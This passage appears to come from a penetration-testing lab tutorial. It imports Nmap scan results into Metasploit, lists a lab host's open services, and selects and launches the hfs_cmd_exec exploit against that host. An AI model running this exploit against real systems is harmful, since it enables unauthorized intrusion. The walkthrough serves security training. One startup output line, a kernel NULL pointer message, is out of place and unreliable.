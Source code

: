 ```bash

# Phase 4: MSF console startup
msfconsole
# Output: Metasploit tip: Search can apply complex filters such as search cve:2009 type:exploit
# Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f
# [MSF Banner and stack information displayed]
```

### Example 2: Database Import Process
```bash
# Verify database connection
msf6 > db_status
# Output: [*] Connected to msf. Connection type: postgresql.

# Import Nmap XML results
msf6 > db_import myscan.xml
# Output: [*] Importing 'Nmap XML' data
# [*] Import: Parsing with 'Nokogiri v1.13.10'
# [*] Importing host 10.0.16.177
# [*] Successfully imported /root/myscan.xml

# Verify imported hosts
msf6 > hosts
# Output: 
# Hosts
# =====
# address     mac  name           os_name  os_flavor  os_sp  purpose  info  comments
# -------     ---  ----           -------  ---------  -----  -------  ----  --------
# 10.0.16.177      demo.ine.local Unknown                    device

# View discovered services
msf6 > services
# Output:
# Services
# ========
# host        port  proto  name           state  info
# ----        ----  -----  ----           -----  ----
# 10.0.16.177 80    tcp    http           open   HttpFileServer httpd 2.3
# 10.0.16.177 135   tcp    msrpc          open   Microsoft Windows RPC
# 10.0.16.177 139   tcp    netbios-ssn    open   Microsoft Windows netbios-ssn
# 10.0.16.177 445   tcp    microsoft-ds   open   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
# 10.0.16.177 3389  tcp    ssl/ms-wbt-server open
# 10.0.16.177 49154 tcp    msrpc          open   Microsoft Windows RPC
# 10.0.16.177 49155 tcp    msrpc          open   Microsoft Windows RPC
```

### Example 3: Leveraging Imported Data for Exploitation
```bash
# Search for exploits targeting discovered services
msf6 > search type:exploit port:80 HttpFileServer

# Use hosts command to target specific systems
msf6 > use exploit/windows/http/hfs_cmd_exec
msf6 exploit(windows/http/hfs_cmd_exec) > set RHOSTS 10.0.16.177
msf6 exploit(windows/http/hfs_cmd_exec) > show targets

# Database automatically populated with target information
msf6 exploit(windows/http/hfs_cmd_exec) > exploit
```
